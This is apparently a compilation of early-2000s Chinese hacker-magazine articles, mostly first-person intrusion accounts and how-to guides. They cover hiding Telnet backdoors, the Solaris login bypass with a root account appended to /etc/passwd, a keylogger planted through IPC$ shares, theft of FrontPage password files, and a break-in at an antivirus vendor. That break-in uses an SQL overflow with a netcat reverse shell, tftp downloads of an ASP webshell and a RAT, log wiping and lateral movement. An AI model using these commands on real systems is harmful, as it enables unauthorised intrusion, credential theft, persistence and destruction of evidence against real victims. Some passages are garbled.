上边的方法可以较好地保护自己的劳动成果不被别人破坏，但是并不能保证不被管理员发现，因为 Telnet 的默认端口是 23，只要对方使用一个简单的命令就可以查看到本机开放了 23 端口。这样的话，辛辛苦苦弄来的肉鸡就飞掉了，所以修改端口也是一个隐藏 Telnet 服务的好办法。这里，我们仍然使用 tlntadmn.exe 这个工具；在 CMD 命令行模式下键入 tlntadmn 命令后，按照提示依次选择 3、8 这两个选项后，就会得到提示，问你是否要修改 Telnet 端口（如图 4 所示），选择 Y 后就可以修改端口了。


这里建议大家修改一些值比较大的端口，例如：我在这里就将 Telnet 端口修改为 60000。因为一般来说，扫描工具在默认情况下是扫描 1--65535 号端口，然而由于很多服务都是在 1024 号端口以下的，所以一般人不会真的去扫 65535 个端口，因此这样一来隐藏性就比较高；而且即算对方扫描了 60000 端口开放，由于扫描器是根据默认端口来辨别服务的，所以也不知道这个端口开放的是什么服务，也就有了很大的隐蔽性。

这时候，再使用 Telnet 的话，就不能直接“telnet ip”了，而要用“telnet ip 60000”，如图 5 所示。


## 隐藏 Telnet 服务器踪迹

这可是很毒辣的一招啊，大家用前要三思四思五思六思……总之，要想清楚啊！

使用 Win2k 的朋友可以到控制面板的“管理工具”里看一看，有“Telnet 服务管理器”和“服务”两项。我想大家应该清楚，在这两项里都可以清楚地查看 Telnet 服务的开启情况，这样一来，就非常容易被管理员发现。但是，不知道大家注意到没有，管理工具下的这些东西都是快捷方式，不知道这个是否引起了大家的怀疑？总之，小弟是注意到了，所以就查看刚才说的那两个工具的快捷方式的属性，这时候发现 Telnet 服务器管理是指向 %SystemRoot%\system32\tlntadmn.exe，而服务是指向 F:\WINNT\system32\services.msc /s，所以我们要做的就是……嗯嗯，删除对方的“tlntadmn.exe”和“services.msc”这两个文件，它们的位置都在 system32 文件夹下。再通过上面的方法，大家应该很容易就 Telnet 到对方的主机上去，这时候再删除这两个文件应该不是问题了。

> **注意：**我已经试过了，删除这两个文件的属性均为“存档”，没有受到“系统的保护”，非常容易删除，而且删除后也不会影响到 Telnet 服务！（我已经在本机上做过实验）

这时候，这两个文件都没了，对一般经验不足的管理员来说，就应该……嗯嗯，应该任由你摆布了。

好了，以上就是小弟自己积攒的一些经验和技巧，也许还不够高杆，但是希望对大家能有些作用。

有一点还是要说的，使用 Telnet 来做后门虽然简单，但是 Telnet 后门使用起来相对并不是很好用，而且对于一些有经验的管理员来说，非常容易被发现。可以说，想把 Telnet 后门做得十分完美是不可能的。因此大家使用 Telnet 后门的时候要十分小心，也许正有无数双眼睛监视着你的一举一动……嗯嗯。

## 如何用“Sun Solaris /bin/login”验证绕过漏洞对 sun-solaris 的入侵

在第七期的“黑客 X 档案”中我已写了一篇“关于如何用 Win2000 入侵 UNIX”的文章，也许大家对 UNIX 也有了一定的了解，但有许多朋友没能成功地完成一次入侵，许多朋友来信反映说读了 20 几遍也没能读懂。其实那篇文章我只是向大家初步介绍了一下 UNIX 的入侵过程，有许多本质的关于技术的知识并没有向大家介绍，因此我写了此文来给大家讲解一下入侵的基础，并和大家一起分析怎样才能完成一次成功的入侵。

现在还是先谈一下关于“Sun Solaris /bin/login 验证绕过漏洞”的问题，这个漏洞是在 2002 年 10 月 2 日发布的，受影响的系统 SunOS 5.5、5.5.1、5.6、5.7（Solaris 7）、5.8（Solaris 8）sparc、SunOS 5.7（Solaris 7）、5.8（Solaris 8）x86，利用在用户名中传递超过 64 个环境变量，就会导致一个指针数组发生溢出；还有就是

# 一个人的战争

telnet 允许远程设置 TTYPROMPT 变量的问题，导致在发生 login 溢出时，覆盖一个与认证有关的标志变量。只要这个变量的内容不为空，就表示认证已经通过了，这样无需口令就可以登录系统。虽然这个漏洞是在 10 月 2 日发布的，但是，以前有人发布过关于利用在用户名中传递超过 64 个环境变量，就会导致一个指针数组发生溢出而受到攻击的漏洞，而这次是利用 telnetd 允许远程设置 TTYPROMPT 变量，因此有许多系统已修复环境变量数组溢出的漏洞。所以受影响的系统不是很多，但这又给黑客制造了一种入侵系统的手段。

- 1. 对漏洞的利用。因为要想成功溢出要满足两个条件：telnetd 没有修复 TTYPROMPT 环境变量传递的漏洞；login 没有修复环境变量数组溢出的漏洞。由于尽职的管理员能够及时地为系统打补丁，要利用的漏洞已被修补，所以不能完成入侵。一般在登录时会返回代码不正确（Login incorrect），并提示重新输入，有的时候也会返回乱码。
- 2. Sun 主机的数量。和 redhat 相比，Sun 主机的占有率还是很低的，有的网友虽然也想提高一下自己的技术，但苦于找不到 Sun 的主机，只能望而兴叹了。
- 3. TCP wrapper 的过滤，或防火墙或包过滤技术禁止不可信 IP 对 23/TCP 端口（telnet）访问。由于系统在防火墙技术的保护下，拒绝临近 IP 对 23/TCP 端口的访问，一般会返回 refuse 等字样。
- 4. 对用户的限制。由于管理员对用户进行了控制，禁用了一些像 root 等用户的远程登录，而利用 sun.exe 入侵时默认用户是 bin，如果禁用了这个用户，当然不能成功登录了。
- 5. 由于自身技术的原因。不可能对 UNIX 完全了解，一些命令等的用法不清楚，对系统的分析不透彻，也是不能成功入侵的原因。

针对上面的原因，和大家讨论一下对于每种原因来制定应对的方法。

- 针对一：由于管理员的尽职尽责，对所维护的系统的尽心尽力，我们只有甘拜下风了，放弃吧！
- 针对二：由于流光是针对系统漏洞的扫描工具，和专门进行端口扫描的工具相比，速度当然是不能相并论的，所以我推荐大家用 superscan3 这个专门用于端口扫描的工具，来增加 Sun 主机的数量，这样可以增加入侵成功的机会。用 superscan3 对 23 号端口扫描，如果开了 23 号端口，我们可以根据返回的提示来判断系统的大概类型如下表所示。

| 返回提示 | 对应系统 |
|---|---|
| #. | RedHat |
| #..% | SunOS Solaris |
| %... | Winnt/freebsd |
| ... | Cisco Systems Console 等路由 |

经过总结，得出下表：针对三，就要提到入侵的渗透了，这就要求我们的肉鸡精良。对方不是拒绝临近的 IP 吗？我们可以找它信任的 IP 的主机做肉鸡，一般防火墙只能对外防护，而对内网没有办法，我们可以用内网来突破防火墙的限制。还有就是选肉鸡的时候，IP 地址最好与要攻击的主机的 IP 在同一个 IP 段，这样也可以加大成功的机率。

针对四，因为 sun.exe 有 -u 和 -h 两个参数，-h 后可加要攻击主机的 IP；那 -u 后可以加用户名。如何获取目标主机的用户名呢？如果目标主机允许 finger，我们可以在 Win2000 的 CMD 下键入 finger @**.**.**.** 来得到用户名，也可以猜测像 www、ftp、Sybase、test 等用户名。Sun.exe 的格式是：

```text
sun -u 用户名 -h 目标IP
例如：c:\>sun -u root -h **.**.**.**
```

针对五，就是要加强自己的技术了，多找一些关于 UNIX 的书看看，多找一些关于 UNIX 的文章读读；还有就是想成为黑客，最基本的就是要有耐心、细心和进取心，对技术执著的追求。

我想上面的几点如果能保证，你的付出也一定会得到应有的收获。下面我向大家介绍一下入侵成功后，怎样成功保留自己的胜利果实，也就是权限的提升、后门的安放和日志的删除。

对于权限的提升，由于许多网友对 gcc 的使用不清楚，对系统是否装有 gcc 的判断也不是很清楚，所以想编译一个溢出程序也有一定的难度，下面我给大家准备了三个已经编译好本地溢出的程序，如下表：

| 系统版本 | SunOS 5.5.1 | SunOS 5.7 | SunOS 5.8 |
|---|---|---|---|
| 对应程序 | Ping | Lpset | Libsldap |
| 对应命令 | $ chmod u+x ping.5.6/ping | $ chmod u+x lpset；./lpset | $ chmod u+x libsldap；./libsldap passwd. |

如果想提升权限，可以上传对应系统的溢出程序，然后输入对应命令即可。对于系统是否装有 gcc 的判断，也有一定的技巧。因为 UNIX 中 gcc 极为常用，所以一般系统都会安装的，只是对用户有限制，所以我们要突破这个限制，做法如下：

```text
$ w    // 看谁在系统上
```

得到用户的信息，然后判断管理员是否在，就是看是否闲置，如果那个用户闲置，就说明他不在，你就可以找到在控制台登录的用户名；

```text
$ exit
C:\>sun -u 控制台登录的用户名 -h 目标IP
gcc
```

等待结果，如返回 not input file 就说明有 gcc，如返回 not found 就说明没有。

对于后门的安放，当你取得“权”也就是 root 权限后，你可以给系统增加一个权限是 root 的用户。方法：

```text
# echo 'l00t::0:0::/:/bin/sh' >> /etc/passwd    // 注意是0:0，不是00:0，这样才有登录权
# echo 'l00t::0::::' >> /etc/shadow
# su root
# passwd bin    // 改 bin 用户的密码
# passwd root   // 改 root 用户的密码
```

有了这两个密码，你就可以不用 sun.exe 程序，直接用 bin 用户加你刚刚设的密码 telnet 到系统了。还有，就是怎样才能让 root 远程登录呢？你可以修改 /etc/default/login 文件，可以把该文件下载到本地用记事本修改后再传上去。具体方法如下：

```text
# ftp **.**.**.**    // 肉鸡的IP
> put /etc/default/login    // 上传配置文件后，把它下载到自己的机子。
```

```text
get login /etc/default/login    // 把改后的文件下载到入侵主机上，覆盖掉入侵主机上的 login 文件。
> bye    // 这样 root 就可以远程登录了
```

对于日志的清除，也是用同样的办法，把对应的日志文件下载到本地机，用 Word 修改。SunOS 的主要日志文件有 lastlog、utmp（utmpx）、wtmp（wtmpx）、messages、syslog、sulog。这些文件在 /var/adm 目录下，我们要修改的只有 utmp（utmpx）、wtmp（wtmpx），具体方法如下：

```text
> ftp 肉鸡的IP
cd /var/adm
mget utmp wtmp dump xwtmp wtmpx    // 把它下载到自己的机器，用 Word 的替换功能把上面有关的旧痕迹或目标主机的用户名、IP 删除掉
mget utmp wtmp xwtmp wtmpx         // 把改后的文件下载到入侵主机
> bye    // 这样就可以了
```

还有就是 rootkit 后门工具包了，这个我以后再和大家一起讨论。如有疑问，请上网站（www.hackerxfiles.net），欢迎大家和我共同研究。

## 一个利用击键机的消息攻击

前几天我在写邮件时，QQ 上一陌生人突然莫名其妙对我进行消息攻击。我哭笑不得，招谁惹谁了？唉……

我扫了一个他的 IP，发现开了 80 端口，系统是 Win2000+IIS5.0，有 Unicode 漏洞。我在 IE 里输入 x.x.x.x 时出现“正在建立”，奇怪了，装了 IIS 却没用？

我利用 Unicode 漏洞很顺利入侵了 x.x.x.x，并取得了 admin 权限。具体过程我就不说了，我主要想讲后来发生的事。

得手后，我开了 x.x.x.x 的 Telnet，绑定在端口 8888，并且去掉了 ntlm 验证方式。Telnet 上 x.x.x.x 后，我在他的硬盘上仔细翻了翻，想找找有没有照片 down 下来再发给他，吓他一下的。照片没找到，却发现了一个目录 E:\www.target.com，当然，这里的 target 我是改过了的。凭着以前做网站的经验和这台机子开了 80 端口却没有提供 WEB 服务，我大概猜测到以下两点：

- 1. E:\www.target.com 是网站 www.target.com 的备份；
- 2. x.x.x.x 的主人（很有可能就是对我消息攻击的人）是网站 www.target.com 的管理员。

想到这里，我浑身一阵冷飕飕——我可是在一个网站管理员的眼皮子底下啊！马上“Exit”回车，撤吧！

不过，这更引起了我想知道对我进行消息攻击的是何许人的兴趣。我上 www.target.com 去看了看，是一个小公司的主页，做的质量实在不敢恭维，用的大都是网上的免费程序。想做成这样的主页的管理员应该不是高明的管理员，想到刚才的紧张不禁失笑。

用 X-scan 扫描了 www.target.com，竟然没有可利用的漏洞！虽然没删除 ipc$ 空链接，但是也只能得到一些信息而已（很奇怪这是不是那个管理员配置的）。

既然直接进入 www.target.com 的道路不通，那就绕道而行。网站不是备份在 x.x.x.x 上吗？那这个管理员肯定要进行日常更新的。先去看看他是用什么远程管理软件的。再 Telnet 上 x.x.x.x，仔仔细细查了一遍。晕了，除了 Dreamweaver、Flash 等做网页的工具外，就见 QQ 了！没用 pcAnywhere？

现在有两种可能：第一种是他直接在服务器上更新（可这样的话他怎么把备份拷到 x.x.x.x 的？移动存储设备？）；第二种是利用 ipc 管道。

更有可能是后者。这时候我知道下一步怎么做了，呵呵，用击键机 KeyKill。

> 注：KeyKill 是键盘监视的专业花样工具。它主要特点是自定义击键类型，依据关键字，记录操作时的详细情况，保存击键记录等功能。

keykill 的基本用法：下载后解压缩 keykill 得到三个文件，如图 1 所示：

> 注：其中 Keyset.exe 是设置程序兼主程序，用来设置击键和窗口标题关键字，配置一些信息。Keyon.exe 是击键侦听器，是本机运行所用的侦听程序。Keybin.exe 是专用加密工具，如果将发送到邮箱当中的击键记录改一改，甚至它本就支持侦听记录的删除。

好了，三个文件都介绍完了，下面先运行 keyset.exe 进行设置。双击 keyset.exe 后弹出击键机资料设置窗口，如图 2 所示：

前面的设置项大都很直观，我就不啰嗦了。只讲讲后面两个要注意的地方。

左下角有两个选项分别是“保存资料在本机”和“设置完毕后安装杀手”，意思很容易理解，我想说的是，如果我们想送到肉鸡上执行而不是记录本机键盘，那么第二个钩一定要打上。

最后是关键字设置，其实这步也是最关键的，因为它关系到你记录到的结果。默认的关键字有“密码”、“password”、“序列号”。这里我猜想 x.x.x.x 是用 net 命令来更新主页的，所以我加了个“命令提示符”关键字，如图 3 所示。

图 4

接下来我们要用 keybin 来绑定生成杀手，双击 keybin 后弹出一个是否绑定对话框，点“开始绑定”按钮后弹出消息窗口，然后点击“确定”，再回到目录查看一下。好了，mplay.exe 就是我所要的，如图 5 所示。

图 5

然后在命令提示符下输入：

```text
net use \\x.x.x.x\ipc$ "" /user:"IUSR_system"
```

IUSR_system 是我在 x.x.x.x 上创建并加入 administrators 组的帐号。命令成功完成后再执行：

```text
copy e:\mplay.exe \\x.x.x.x\admin$\system32
```

已经把击键机传上去了。Telnet 上去后执行 mplay.exe，然后删除了日志，退出走人。两天后收邮件，有结果了，如图 6 所示：

图 6

OK！现在 www.target.com 的用户名和密码有了，并且它开了 139，看看上面都有什么东西。

```text
net use \\y.y.y.y\ipc$ "passwd" /user:"name"
```

命令成功完成，现在把他的驱动器映射过来：

```text
net use * \\y.y.y.y\c$
net use * \\y.y.y.y\d$
net use * \\y.y.y.y\e$
net use * \\y.y.y.y\f$
```

出现“找不到网络路径”了。这里的 y.y.y.y 是 www.target.com 的 IP。

我很顺利地就找到了 WEB 服务的根目录是 D:\www.target.com，本来是想换了它主页的，但又一想觉得不好，管理员素质低但与这家公司毕竟不相干，所以算了。

然而在根目录下一个名为 personal 的目录引起了我的兴趣。进去一看，好家伙！是管理员的个人主页！私用公家资源！知道了路径，我在浏览器里看了一个他的个人主页。哇！是个黄页！收集的全是一些黄色文章。

删！我删除了 personal 目录下所有的文件，然后复制了一个 index.html 上去，上面写着：

> 同志，我打赌你从小学到现在所有思想政治考试肯定都是不及格。好好学习一下吧！对你有好处的。

vpy·留

我断开所有网络映射盘后用 elsave.exe 删除了日志，没有也不想留后门。

第二天，那个管理员又上线了，又开始不停给我发垃圾消息，内容还和以前的不一样（我努力地想啊想，就是想不起来什么时候惹过这么一号人物，后来一个朋友提醒了我，说他可能下载了一个 QQ 黑客软件，在拿我做测试）。

我回了他一句话：去看看你的个人主页好吗？：）http://www.target.com/personal/，之后就再也没有收到他的回话了。

# 流光4.7新发现

此次仅适用于拨号用户，用上宽带的兄弟们就不用看了。

我相信，大部分《黑客 X 档案》的读者都在使用流光 4.7。流光从 4.6 版本出了一个新功能：你可以将流光自带的 sensor（扫描部分），远程安装到有 ADMIN 权限的远程主机上，这个功能的确方便了广大拨号用户（我就是其中的一个）。但随之而来的问题是：拨号的速度一般都比较慢，由此 COPY 文件到远程主机的过程中耗时比较长，而且有可能因为速度慢而被打断，当我们手里有一大堆主机要安装 sensor 的时候，COPY 文件的过程实在让人难以忍受。为了解决这个问题，我开始研究流光，终于在一次无意地打开流光目录下 advhost.his 这个文件的时候发现了解决问题的办法。

当你用文本编辑器打开 advhost.his 后，你会发现：它记录了所有已经安装过 sensor 的主机，我们的选定记录都是明文的，如图 1 所示。

图 1

开始扫描前流光会调用 advhost.his，让你来选择用于扫描的主机，如图 2 所示。

图 2

也就是说只要有了这个文件，就可以控制肉鸡了！这样我们就可以先登录到有终端服务的肉鸡，没有的话就自己动手开。

注意：这里的登录，不是在自己机器上登录，是要你到网吧通过 WEB 终端服务来登录，提供这种服务的网站很多，比如灰色地带 http://www.isgrey.net。

下载流光，然后就可以像在本机上一样安装 sensor 到其他主机，这时候文件的传输过程变为“服务器 to 服务器”，又快又安全了，因为你不用担心自己的 IP 被记录了。而我们要做的只是将 sensor 安装完后，到流光所在的目录将 advhost.his 弄到手，方法很多，比如开 FTP，用 netmeeting，或者直接用邮件把 advhost.his 当附件发到自己邮箱里！

最后，不用我说，大家也知道一定要删除日志并将流光卸载，被管理员发现事小，要是被同行上来并看到了你的 advhost.his 文件，那不是很糟糕！所以我个人认为这也可以算是流光的一个缺陷，希望小榕在他的流光 5 中有所改进！

# 广域网攻击之法

mopish boy

看了第八期的《搜索引擎：黑客的另类工具》这篇文章后，忽然想起我过去曾经用过的几种黑 FrontPage 服务器的方法。或许这几种方法不少黑客朋友都知道（高手勿看），但对一些菜鸟朋友（我也属于这一类）来说，看看倒是很有帮助。

## 一、获取网址

我的方法主要是利用 FrontPage 服务器的一些安全漏洞，所以第一步就是要找到使用 FrontPage 服务器的计算机。要找到这些计算机通常有两种方法：

- 1. 连接搜索引擎，搜索 iisadmin；
- 2. 或者搜索 `_vti_bin/_vti_aut/`，看到什么了？对，那就是使用 FrontPage 服务器的网址。

## 二、获取网址密码文件

获取了网址，下面就该找到网站的密码文件了，我们可以采用下面三种方法：

- 1. 在浏览器里输入：域名/_vti_pvt/service.pwd，如“http://www.***.com/_vti_pvt/service.pwd”。哪个是密码文件，我想你一定知道了吧。Yes，就是“service.pwd”。

当然，取得密码文件的前提是网管没有设置权限。现在聪明的网管都已经设置了权限并且修改了密码文件的文件名和扩展名。

- 2. 如果网管同志开启了查找文件“findfile”这项功能的话，我们就可以开始下面的工作了。在浏览器里输入：域名/sample/search/queryhit.htm 连续访问分页，如“http://www.***.com/sample/search/queryhit.htm”。然后在查找文件对话框中输入：`#filename=*.pwd`，如果出现一串连接到以“.pwd”为扩展名的密码文件的话，那就是要找的东西了。

同样，使用这种方法的前提是没有关闭查找文件的功能并且没有修改密码文件的文件名和扩展名。

- 3. 如果密码文件名被修改，那你该怎么办呢？很简单——继续往下看。如果网管没有关闭文件查找功能，和第二种方法开始一样，只要把搜索条件改为“`#filename=#haccess.ctl`”，等找到后根据它的内容就可以知道密码文件换在了什么地方了。

以下是 `#haccess.ctl` 文件的标准内容：

```text
#--FrontPage--
Options None
<Limit GET POST PUT>
order deny,allow
deny from all
</Limit>
AuthName default realm
AuthUserFile:./frontpage/webs/content/_vti_pvt/whodoo.pas
AuthGroupFile:./frontpage/webs/content/_vti_pvt/service.grp
```

看到了吗？AuthUserFile 后面的就是 FrontPage 服务器密码文件的位置，而 whodoo.pas 就是已被改名的密码文件。

所以如果密码文件被改名的话，就可以去找“#haccess.ctl”文件，然后根据 AuthGroupFile 后面的路径位置获取。

我们可以根据最后部分知道 FrontPage 密码文件已被改为 whodoo.pas，然后根据第二种方法开始的步骤搜索，则结果就是密码文件所在的位置了。

> 既然找到了密码文件，下面的步骤不用说大家也知道了。要提醒大家的是，解开了密码后可别干什么坏事，否则你可能就有麻烦了！

# 再次放倒国内XX知名杀软所在厂商网站全记录

最近各种病毒闹得比较欢，于是想了解一下，所以就到 www.google.com 里搜索了一下，发现关于杀毒的知识还真不少。同时我也发现了国内一家知名厂商“XX 杀毒软件”的网站，我一看，这个好，就去看看他们有什么好建议吧。进入主页，看到全是什么防范黑客和病毒一类的新闻和资料。既然网站上大力宣传安全以及业内如雷贯耳的名声，我估计他们网站的安全体系以及网管人员的技术素质都应该是国内一流的，抱着学习与怀疑的态度，我决定对该网站简单测试一下。

# 凌晨2点半

首先下一个 Ping 命令知道了他的 IP 地址，然后我拿出 X-scan，简单扫描了一下他的主机，主要信息如下。

```text
[XXX.XXX.XXX.XXX]：端口80开放：HTTP；World Wide Web
[XXX.XXX.XXX.XXX]：端口1433开放：Microsoft SQL Server
[XXX.XXX.XXX.XXX]：开放端口扫描完成，发现2…
```

果然厉害！只开了两个端口，好像无处下手。突然想起，前一阵微软的 SQL 有一个溢出漏洞，正好它开放的就是 1433 端口。于是我拿出了溢出 1433 的工具 sql2.exe 以及 nc.exe 工具，在我的肉鸡上进行试探操作。（关于 SQL 漏洞这里就不详细说了，《黑客 X 档案》2002 年 12 月总第 8 期《MSSQL 新漏洞被侦探家》有详细介绍）。

命令格式如下：

```text
c:\nc -l -p 40    // 因为我用 40 端口成功最多，所以我就用 40 端口溢出；
c:\sql2 目标IP地址 本地IP地址 40
```

# 一个人的战争

接下来的情况让人难以置信，刚才用 NC 监听本地 40 端口的窗口居然出现了。然后……就进入了他的主机。回忆起来，当时的心情真是很复杂。不过，我马上又怀疑这个该不会是诱捕 HACKER 的蜜罐吧？不过，这一切才刚刚开始……


不管怎么说，我还是决定深入虎穴（画外：反正有肉鸡替我挡着）。我在他的主机里四处收集情报。到了 D 盘，看到了他的 Web 目录。


> 由于是“回忆录”，所以没有能把当时的愤怒抓成图，不太可能。对方快速的安全响应是不会再次给我任何机会的。当然，渗透只要给一次机会就足够了。

进入它的 WEB 目录看看，果然正是他的主页所在目录，一切都挺顺利。既来之则“安”之，先安个后门，然后添加至管理员帐号。接下来放个木马吧，仔细一想不行，人家是做杀毒软件的，不把我杀得人仰马翻才怪。再说安后门放木马需要开放端口，这样很容易被发现的！不过，我脑筋一转，就计上心来，我手上正有一套海阳顶端网 ASP 木马，这套木马可是我的最爱啊！它号称在 Windows 系统下永远都不被查杀，还不开放多余端口。


> 海阳顶端网 ASP 木马工作原理：这个 ASP 木马是用 ASP 语言写的，其实它就是一个页面在线维护系统。把它传到对方主机的 Web 目录下，用浏览器打开就可以在线管理它所有的文件。可以修改、删除、在线编辑、复制粘贴……

对，就是这个了，说行动就行动吧。可是他的主机只开放了 80、1433 两个端口，我怎么能把木马上传上去呢？想起以前在我的肉鸡上建立过 tftp 服务器。我马上就在他的 Web 目录下建立了一个很隐蔽的文件夹，然后执行如下命令：

```bash
tftp -i IP（以前肉鸡的 IP） get index.asp（木马文件）
```


> 这个 tftp 的全称叫 tftp32，只要把它放在肉鸡上，肉鸡就变成了一个小型的 FTP 服务器。就可以上传文件和下载文件。下载地址是：http://218.18.6.64/sydj/down/tftpd32.exe，直接在肉鸡上运行就可以。

这套木马一共有 7 个文件，不一会就都传完了。我把这套木马安装在该杀毒软件网站上的 /count/inc/ 目录下，紧接着就在浏览器中输入 http://IP（杀毒厂商 IP）/count/inc/index.asp，我刚才放置木马的路径出现了，这下我就放心了。我可以在他主机里随便删除、修改文本格式的文件，也就是说可以改掉他的主页。说明 ASP 木马种植成功，yeah！100 分。

```bash
del C:\winnt\system32\logfiles\*.* C:\winnt\system32\config\*.evt
del C:\winnt\system32\dtclog\*.* C:\winnt\system32\*.log
del C:\winnt\system32\*.txt C:\winnt\*.txt C:\winnt\*.log
```

正在得意忘形的时候，忽然想到，我怎么把他所有的日志都给清理了啊？这下不是露馅了吗？这不是等于告诉他有人入侵过他的主机吗？这不是地球人都知道了吗？唉……我应该只把我自己的 IP 擦了，把别的留下啊！本来我只打算用这个 ASP 木马永远监视他网站的一举一动，谁知道自己给弄露馅了。干脆一不做二不休，我向他的内部网络渗透算了。对，说干就干。我使用 ipconfig 命令看到它的主机有两块网卡，主机为 192.168.0.1，也就是它主页存放的机器。接下来我把 X-scan 上传到该主机上。

当然还是用我的肉鸡传的：tftp -i IP（肉鸡 IP） get scan.exe，然后在这台主机上用 X-scan 的 DOS 扫描功能进行扫描，命令是：

```bash
xscan --host 192.168.0.1 -192.168.0.255 --all -p
```

得到的结果是：192.168.0.2 开放 139 端口，有一个 guest 的弱口令，还是 administrators 组的。

哈哈……我一看这下好了，我就先搞定这台。这时我又发愁了，这个 192.168.0.2 在内部网中，我攻什么上去好呢？我一下就想起了灰鸽子。这个木马是基于端口反弹原理的，用户可以访问到 192.168.0.2，于是我马上就把灰鸽子的服务端脱了一下壳，用他们公司的产品在本地测试了一下，居然没有报告有病毒，再用 tftp 从我的肉鸡上把灰鸽子传到了杀毒厂商的主机上。

```bash
tftp -i IP（我的肉鸡） get hgz.exe
```

传上去后我就用主机和他的 192.168.0.2 建立连接。命令是：

```bash
net use \\192.168.0.2\ipc$ "" /user:"guest"
copy /a .\werv\hgz.exe \\192.168.0.2\admin$
```

拷贝灰鸽子文件成功。到了这里，我又想到，给它种灰鸽子好像不行啊！我把他主机都搞成这样了，明天管理员发现了肯定要彻底清查啊！到时候发现放在 192.168.0.2 上面的灰鸽子，岂不就白费心机了吗？不行，我得想点对策，于是我就输入以下命令：

```bash
net time \\192.168.0.2
at \\192.168.0.2 23:59 hgz.exe
```

返回服务器当前时间是 01:30，再输入：到这里估计朋友们会问了：“人家服务器时间明明是凌晨的 01:30，你怎么让木马在半夜 23:59 运行啊！”嘿嘿……这个就是我使用的计策了，等到他明天发现的时候也就是早上。他们在早上一定开始调查，我估计我的小马在半夜发作，他们保证不能发现。（我简直是天才嘛！）

好了，现在该是离开他主机的时候了。离开了他主机后，我马上在浏览器里调出了我的 ASP 木马，在他的首页上改了一个字就当是纪念吧！哈哈，今天玩得很愉快。睡觉去了。一个字“爽”……我嘴里唱着“今儿我是呀真呀真高兴”，进入了梦乡。


等到我睡醒起来的时候，第一件事情就是去了“XX 杀毒软件厂商”的网站，发现我精心“喂养”的 ASP 木马已经找不到该页面了。因为我用浏览器输入地址：http://xxx.xxx.xxx.xxx/count/inc/index.asp，提示错误，没有该页面存在了。说明我这套 ASP 木马已经被对方管理员删除了。

看来这个管理员还是有点实力的，不愧是国内一流杀毒软件生产厂家，不是浪得虚名啊！我马上登录上了我的肉鸡，扫描了一下他的主机，如图 1 所示。嗯，管理员早上发现了入侵，重新做了系统后居然做成这样？我仔细一想，不对啊！我昨天晚上扫描系统时只开了 80 和 1433 两个端口，而且一个 CGI 漏洞和 IIS 漏洞都没有。现在居然开共享了，还有一个弱口令。地球人都知道这样很容易就被人入侵啊！但是这次他把 1433 端口关闭了，分明就是知道我是用这个漏洞进去的嘛！陷阱？对，肯定是陷阱。管理员故意把主机弄成这样，肯定就是在等我。哈哈……被我猜到了，我才没那么白痴呢！想算计我，门都没有！

「Scan v2.0 - 网络安全漏洞扫描器」
安全焦点：http://www.xfocus.org，http://www.xfocus.net

```text
正在加载插件...
攻击载入所有插件

正在检测“61.[...]”...
61.[...]：正在检测“开放端口”...
61.[...]：端口80开放：HTTP, World Wide Web
61.[...]：端口135开放：Location Service
61.[...]：端口139开放：NETBIOS Session Service
61.[...]：端口445开放：Microsoft-DS
61.[...]：“开放端口”扫描完成，发现4
61.[...]：正在检测“SQL-Server弱口令”...
61.[...]：无法与主机“61.182.251.235”建立连接
61.[...]：“SQL-Server弱口令”扫描完成。
61.[...]：正在检测“NT-Server弱口令”...
61.[...]：发现 NT-Server弱口令：[Guest/空口令]
61.[...]：“NT-Server弱口令”扫描完成，发现1。
```


此时已经快半夜 12 点了，我打开灰鸽子控制端，等昨天我埋下的木马自动上线来找我。在 QQ 上聊了一会，终于在 12:05 分的时候，杀毒软件子网内那台肉鸡的 192.168.0.2 自动和我接上了，如图 2 所示。


突然发现肉鸡上也有一个 Web 目录？我过去仔细一看。啊……昨晚我进入主机的 Web 目录怎么跑到肉鸡的机器上了？于是我用灰鸽子把先前那套 ASP 木马传到了 192.168.0.2 上，然后用杀毒厂商的主机 IP 欺骗登录开了一看，果然和我猜的一样，原来他把 Web 虚拟目录放在了 192.168.0.2 上，这跟我前面猜想这是给我设的陷阱正好吻合。

> 我仅仅是发到漏洞扫描器进行第二个管理员的陷阱样本，对方发现是主页原来放在了 192.168.0.2 这个机器上，目的是杀我一个入侵他的主机，也就是 192.168.0.2 这台机器。他可以当场把我肉鸡的 IP 截获，他把 Web 目录放在 192.168.0.2 上的好处就是，即使我再二次入侵 192.168.0.*，我也改不掉他的主页，因为主页虚拟目录已经被他放在了 192.168.0.2 主机上。他这样的做法当然是屡经锤炼，同时也说明了他并不简单……总之，我的一些猜测，便在针对之下得到了印证。

多亏我聪明没掉进他的陷阱啊！看来这个管理员大大的有实力。不过，碰到如此懂礼貌的我也算他幸运，要是我修改了他的主页，估计又将是互联网上的一个新闻了，关联的问题就危险喽，“另外！另外！某某知名杀毒厂商网站被黑”，这可不是我这个黑客的准则之一吧，虽然我还不是黑客，但我要遵守这个原则。废话说了这么多，转回去，当然这个真实故事的结尾就是我把刚才上传的 ASP 木马删除了，然后把灰鸽子也远程卸载了，彻底撤离他的主机……

# 事件回顾

- 1. 回顾这两次对他的主机的渗透，可以说只能用巧合来形容了。第一，他的主机没有 SQL 溢出漏洞，我就不能渗透到他的主机。主要原因是管理员及时打上相应的补丁。
- 2. 我把灰鸽子木马设定在管理员检查以后执行。说明主机管理员没有对我的渗透有足够的认识，只检查了主机，没检查到内部网。
- 3. 管理员给我设置陷阱，说明这个管理员的确很有经验，很老道，也很……
- 4. 最后我要跟大家说明：以后大家在进行渗透试验时一定要多动脑筋，不要一条死胡同走到底。随着网络整体安全水平的上升，一般通过弱口令渗透的机会将会越来越少，不要以为天上总能掉馅饼，也可能掉的是陷阱……


# 黑客研究院

IPC 是共享“命名管道”的资源，它对于程序间的通讯很重要。在远程管理计算机和查看计算机的共享资源时使用。利用 IPC 我们可以与目标主机建立一个空的连接（无需用户名与密码），而利用这个空的连接，还可以得到目标主机上的用户列表。但是，一些别有用心者会利用 IPC，查找我们的用户列表，并使用一些字典工具，对我们的主机进行攻击。


兔子

## 如何利用 IPC 漏洞

攻击者在这里一般会用到“流光”这个软件，在这里特别提醒，“流光”是一款功能非常强大的软件，在使用时一定要注意，不得进行非法破坏！

第一步：运行“流光”（现在的最新版本是 4.6），按“CTRL+R”键弹出扫描框，我们这里只是做个测试，目的是告诉大家这个漏洞的危害，所以我们现在随便选择一段 IP 进行扫描。我们扫描的是 127.0.0.1，其他的均使用默认，不需要改变设置。

第二步：打开 Win2000 自带的命令提示行，注：这里我们不是教大家怎么破坏，只是给大家介绍这个漏洞的危害，所以下面的 IP 是假设的，并不存在。

```text
1. C:\>net use \\127.0.0.1\IPC$ "" /user:"administrators"
```

